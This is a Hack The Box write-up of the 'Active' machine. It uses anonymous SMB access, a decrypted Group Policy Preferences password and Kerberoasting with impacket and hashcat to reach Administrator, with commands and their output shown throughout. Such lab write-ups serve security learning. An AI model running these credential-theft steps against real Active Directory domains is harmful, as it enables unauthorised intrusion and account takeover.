 ```yaml
---
layaout: post
image: assets/images/active_test1.png
title: Active Write Up HTB
date: 28-01-2025
categories: [Write ups]
tag: [Active Directory, kerberoasting, GPP]
---
```

![img-description](/assets/images/active_test1.png)

**Active** is a relatively straightforward machine, perfect for getting started with **Active Directory**. In this machine, we'll explore techniques like **Kerberoasting** and **GPP Passwords**, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts! 🚀
# **ENUMERATION**
----
## NMAP SCANNING
----
We start using nmap:
````bash 
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53262/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 52552/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-01-27T18:16:36
|_  start_date: 2025-01-27T17:58:44
|_clock-skew: -1s
````
After analyzing the nmap, we can realize that we are dealing with an Active Directory, so we will start by enumerating the SMB.

# **ENUMERATING SMB AS ANONYMOUS**
----
````bash
smbclient -L \\\10.10.10.100/shares
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
````

## On smb we found credentails for SVC_TGS
---
````bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
````

# **FOOTHOLD**
----
## Group Policy Preferences

When a new Group Policy Preference (GPP) is created, an XML file is stored in the SYSVOL share containing its configuration, including any associated passwords. These passwords are AES-encrypted and stored as `cpassword`. However, Microsoft publicly [released the encryption key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx).

In 2014, Microsoft patched this by preventing admins from adding passwords to GPP, but it didn’t address existing vulnerable passwords. As of 2025, pentesters still find these issues. For more details, see this [AD Security post](https://adsecurity.org/?p=2288).

# **AUTHENTICATED ENUMERATION**
---
## Enumerating SMB as SVC_TGS
----

````bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Tue Jan 28 02:14:45 2025

                5217023 blocks of size 4096. 260447 blocks available
````
# **PRIVILEGE ESCALATION**
----
## Kerberoasting
----
Kerberos is an authentication protocol used in Windows Active Directory environments (and can also be used for Linux hosts). In 2014, Tim Medin introduced the _Kerberoasting_ attack. This attack involves obtaining Kerberos tickets encrypted with the hash of a service account's password. Instead of sending the ticket to the service, it can be brute-forced offline to crack the password.

Typically, an active domain account is required to perform the attack. However, if the Domain Controller (DC) is configured with the _"Do not require Kerberos preauthentication"_ setting, it’s possible to request and receive a ticket without a valid domain account.

We are going to use the credentials we previously obtained to execute the attack using `impacket-GetUserSPNs`.
````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-01-27 18:59:55.488567
````
We were able to extrat the ticket which we will try to force decrypt to get Administrator's password

````bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
````

## Acces as ADMINISTRATOR to smb

````bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Jan 21 17:49:47 2021
  ..                                 DR        0  Thu Jan 21 17:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Mon Jan 27 18:59:52 2025
  
````
![netrunner](/assets/images/netrunner.gif)